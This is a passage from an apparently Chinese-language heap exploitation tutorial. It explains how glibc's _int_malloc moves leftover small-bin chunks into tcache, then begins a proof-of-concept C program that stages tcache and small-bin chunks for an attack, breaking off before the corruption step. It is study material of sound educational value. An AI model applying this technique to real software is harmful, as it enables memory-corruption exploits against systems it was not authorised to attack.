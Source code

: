 ```c
		      if (av != &main_arena)
			set_non_main_arena (tc_victim);
		      bin->bk = bck;
		      bck->fd = bin;

		      tcache_put (tc_victim, tc_idx);
	            }
		}
	    }
#endif
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
```

这是`_int_malloc`中当`nb`(也就是`malloc`的参数`nbyte`)在`small_bin`的范围内的时候。

9~25行，和GLIBC-2.23没有区别。

重要的是在26~51行。

新增的代码做的工作就是取出`victim`以后, 发现该`small_bins`链上还有别的chunk, 而且对应的`tcache`链还没填满。这个时候会把该`small_bins`链上的其他chunk放到tcache中。

那应该怎么利用呢？

看看如下构造

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char buf[0x100];
    long *ptr1 = NULL, *ptr2 = NULL;
    int i = 0;

    memset(buf, 0, sizeof(buf));
    *(long *)(buf + 8) = (long)buf + 0x40;

    // put 5 chunks in tcache[0x90]
    for (i = 0; i < 5; i++) {
        free(calloc(1, 0x88));
    }

    // put 2 chunks in small bins
    ptr1 = calloc(1, 0x168);
    calloc(1, 0x18);
    ptr2 = calloc(1, 0x168);

    for (i = 0; i < 7; i++) {
        free(calloc(1, 0x168));
    }

    free(ptr1);
    ptr1 = calloc(1, 0x168 - 0x90);

    free(ptr2);
    ptr2 = calloc(1, 0x168 - 0x90);

    calloc(1, 0x108);

    // ptr1 and ptr2 point to the small bin chunks [0x90]
```